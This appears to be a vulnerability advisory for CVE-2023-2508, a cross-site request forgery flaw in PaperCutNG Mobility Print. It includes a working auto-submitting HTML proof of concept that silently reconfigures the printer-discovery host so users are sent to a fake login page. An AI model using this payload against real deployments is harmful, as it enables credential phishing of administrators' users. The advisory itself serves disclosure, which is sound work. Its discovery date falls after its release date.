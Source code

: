 ```yaml
---
slug: advisories/solveig/
title: CSRF in PaperCutNG Mobility Print leads to sophisticated phishing
authors: Carlos Bello
writer: cbello
codename: solveig
product: CSRF in PaperCutNG Mobility Print leads to sophisticated phishing
date: 2023-03-06 12:00 COT
cveid: CVE-2023-2508
severity: 5.3
description: CSRF in PaperCutNG Mobility Print leads to sophisticated phishing
keywords: Fluid Attacks, Security, Vulnerabilities, Python, Papercutng, CSRF, Mobility Print
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | CSRF in PaperCutNG Mobility Print leads to sophisticated phishing  |
| **Code name**         | [Solveig](https://es.wikipedia.org/wiki/Martin_Solveig)            |
| **Product**           | PaperCutNG Mobility Print                                          |
| **Affected versions** | Version 1.0.3512                                                   |
| **State**             | Public                                                             |
| **Release date**      | 2023-03-06                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                                                                                  |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)                               |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:N/I:H/A:N                                                                                |
| **CVSSv3 Base Score** | 5.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-2508](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-2508)                                               |

## Description

The `PaperCutNG Mobility Print` version 1.0.3512 application allows an
unauthenticated attacker to perform a CSRF attack on an instance
administrator to configure the clients host (in the "configure printer
discovery" section). This is possible because the application has no
protections against CSRF attacks, like Anti-CSRF tokens, header origin
validation, samesite cookies, etc.

## Vulnerability

This vulnerability occurs because the application has no protections
against CSRF attacks, like Anti-CSRF tokens, header origin validation,
samesite cookies, etc.

## Exploitation

In this scenario an unauthenticated attacker to perform a CSRF attack
on an instance administrator to configure the clients host (in the
"configure printer discovery" section).

Then, when the administrator wants to share the link to users so that
they can configure their credentials, they are actually sending users
to a malicious website that pretends to be the PaperCut NG login, with
the goal of exfiltrating the credentials.

### exploit.html

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="Content-Type" content="text/html;charset=UTF-8"/>
    </head>
    <body>
        <form action=http://127.0.0.1:9163/dns-config method=POST enctype=text/plain>
            <input type=hidden name={"mdnsEnabled":false,"searchDomain":"","subnets":[],"currentStep":"","dnsOptionSelected":"","dnsConfigModified":false,"ZoneIndex":0,"AccessibleIP":"","AccessibleHTTPSPort":0,"dnsFreeEnabled":true,"ExternalIPCIDRs":null,"serverAddresses":["192.168.1.8","Retr02332-MacBookPro.local"],"httpsPort":0,"dnsFreeDiscoveryHostname":"localhost:9999/login.html?redirect="," value=x":"x"} />
        </form>
        <script>document.forms[0].submit();</script>
    </body>
</html>
```

### Evidence of exploitation

<video width="835" height="505" controls="">
    <source src="https://rb.gy/v3078" type="video/mp4">
    <p>PaperCutNG-Mobility-Print</p>
</video>

## Our security policy

We have reserved the ID CVE-2023-2508 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: PaperCutNG Mobility Print 1.0.3512

* Operating System: MacOS

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.papercut.com/>

## Timeline

<time-lapse
  discovered="2023-05-03"
  contacted="2023-05-03"
  replied="2023-05-03"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
